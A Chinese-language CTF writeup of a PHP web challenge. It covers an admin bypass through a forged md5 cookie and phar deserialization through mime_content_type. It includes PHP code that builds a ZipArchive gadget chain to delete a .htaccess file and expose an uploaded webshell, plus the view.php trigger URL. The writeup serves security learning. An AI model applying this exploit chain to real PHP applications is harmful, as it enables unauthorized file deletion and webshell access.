 ```yaml
---
title: "OFPPT-CTF Dm Writeup  &&  phar反序列化"
published: 2022-03-25
description: ""
category: 胡乱折腾
tags: 
  - "phar"
  - "反序列化"
---
```


### phar的原理

phar，全称为PHP Archive，phar扩展提供了一种将整个PHP应用程序放入.phar文件中的方法，以方便移动、安装。.phar文件的最大特点是将几个文件组合成一个文件的便捷方式，.phar文件提供了一种将完整的PHP程序分布在一个文件中并从该文件中运行的方法。

### 管理员绕过

整个程序大概流程就是

- 登录后跳转到上传页面
- 如果是管理员用户直接上传文件到特定目录
- 上传时候会再文件目录下生成一个错误的.htaccess导致目录解析错误500

下载附件审查

<figure>

[![](assets/1648214920-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648214920-image.png)

<figcaption>

index.php

</figcaption>

</figure>

<figure>

[![](assets/1648214944-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648214944-image.png)

<figcaption>

config.php

</figcaption>

</figure>

只要满足username=admin并且password不是admin就可登录成功。

登录成功后上传文件提示不是管理员。继续审查

<figure>

[![](assets/1648215123-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648215123-image.png)

<figcaption>

config.php

</figcaption>

</figure>

[![](assets/1648215175-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648215175-image.png)

管理员判断就是通过cookie的值判断。然后构造一个md5(E3ry7Hjq+username+passwd)值就可以绕过管理员验证。

###  Phar反序列化

然后继续审查文件相关

中间有个内容过滤。还有个获取类型的值

<figure>

[![](assets/1648215390-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648215390-image.png)

<figcaption>

config.,php

</figcaption>

</figure>

这个是文件上传的函数。

<figure>

[![](assets/1648215522-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648215522-image.png)

<figcaption>

config.php

</figcaption>

</figure>

总体看了下因为上传的webshell目录下有个错误的.htaccess 导致目录无法访问。大概猜测下能不能上传到其他目录，但是上传的路径不是完全可控的导致了这个题目陷入了难点（也可能我菜）

后来题目给了提示phar

先百度下phar可以解析的函数

[![](assets/1648216019-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648216019-image.png)

```
exif
exif_thumbnail
exif_imagetype
gd
imageloadfont
imagecreatefrom***
hash
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
file / url
get_meta_tags
get_headers
standard
getimagesize
getimagesizefromstringfinfo_file/finfo_buffer/mime_content_type
```

所以利用点就是在mime\_content\_type这个函数然。可以通过这个函数构造反序列化进行操作。下一步就是寻找利用点了。最开始仔细的研究了几个类没找到如何利用最后猛然发现（大佬提示）关注下open函数。

<figure>

[![](assets/1648216409-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648216409-image.png)

<figcaption>

config.php

</figcaption>

</figure>

这个会调用open函数。但是open是$admin下的一个函数。这个$admin正好可以通过反序列化进行控制。百度下open函数都是那些类下面的函数。最后可以发现ZipArchive类下面的open函数正好可以使用。

[![](assets/1648217578-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648217578-image.png)

两个参数都是可控。重点是后面的标识符，当标识符为

[![](assets/1648217633-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648217633-image.png)

使用open函数会删除掉文件所以就是直接的可以删除了.htaccess

### 生成phar文件

构造序列化的类。

```
class Profile{
    public $username="sandbox/5a8f6f94bc19c92b4d54261081d98c16/.htaccess";
    public $password=ZipArchive::OVERWRITE;
    public $admin;
}
$a = new Profile();$a -> admin = new ZipArchive();
```

剩下的是调用\_\_call()

[![](assets/1648219096-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648219096-image.png)

\_\_call()在调用一个不存在方法的时候会触发，所以我们还需要一个触发条件。可以通过其他类进行触发。

[![](assets/1648219220-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648219220-image.png)

### 代码

```
class Profile{
    public $username="sandbox/5a8f6f94bc19c92b4d54261081d98c16/.htaccess";
    public $password=ZipArchive::OVERWRITE;
    public $admin;
}
$a = new Profile();
$a -> admin = new ZipArchive();
class File{

    public $filename;
    public $filepath;
    public $checker;

}
$b = new File();
$b -> checker = $a;
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

最后将这个phar文件上传。通过view访问就可以删除.htaccess然后访问你的webshell了

```
view.php?filename=xxx.phar&filepath=php://filter/resource=phar://sandbox/xxxx/xxxx.phar
```

